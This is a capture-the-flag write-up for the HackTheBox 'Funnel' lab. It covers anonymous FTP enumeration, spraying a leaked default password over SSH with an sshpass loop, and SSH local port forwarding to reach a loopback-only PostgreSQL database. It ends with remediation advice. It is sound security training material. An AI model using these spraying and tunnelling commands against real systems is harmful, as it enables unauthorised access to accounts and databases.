

# Funnel (Starting Point)

| | |
|---|---|
| **Platform** | HTB — Starting Point (Tier 1) |
| **OS** | Linux |
| **Difficulty** | Very Easy |
| **Status** | Starting Point (free, public guidance) ✅ |
| **Tags** | `ftp` `anonymous` `password-spraying` `ssh` `port-forwarding` `postgresql` |

> Anonymous FTP leaks an onboarding email with a default password and a user list. One user never changed it, which gives SSH. PostgreSQL only listens on localhost, so an SSH local port forward brings it to us.

---

## Attack chain



---

## Recon & FTP

```bash
nmap -sCV $RHOST
ftp $RHOST            # user: anonymous, empty password
ftp> cd mail_backup
ftp> mget *
```

Two files: a password policy PDF and a welcome email. The email lists new users (`optimus`, `albert`, `andreas`, `christine`, `maria`) and the default password `funnel123#!#`.

## Foothold — default password

Spray the one password across the user list (a few attempts, not brute force):

```bash
for u in optimus albert andreas christine maria; do
  sshpass -p 'funnel123#!#' ssh -o StrictHostKeyChecking=no $u@$RHOST id 2>/dev/null && echo "[+] $u"
done
```

`christine` never changed it → SSH.

## Internal service → local port forward

```bash
ss -tlnp
# 127.0.0.1:5432  -> PostgreSQL, loopback only
```

The database is not exposed externally. **Local port forwarding** ("локальный проброс порта") makes port 1234 on *our* machine tunnel through SSH to `127.0.0.1:5432` on the target:

```bash
ssh -L 1234:127.0.0.1:5432 christine@$RHOST
# in another terminal:
psql -h localhost -p 1234 -U christine
\l                    -- list databases
\c secrets
\dt
SELECT * FROM flag;
```

---

## Why it works

"Bound to localhost" is not access control once an attacker has *any* shell on the box — SSH forwarding turns every loopback service into a remote one. And default passwords in onboarding mail are only as safe as the slowest user to change them.

## Remediation

- Disable anonymous FTP; don't store mail backups on file shares.
- Force password change at first login; expire default credentials.
- Restrict SSH forwarding (`AllowTcpForwarding no`) for users who don't need it; require DB authentication beyond the OS user.

## References

- OpenSSH `-L` local forwarding
- HTB Starting Point — Funnel
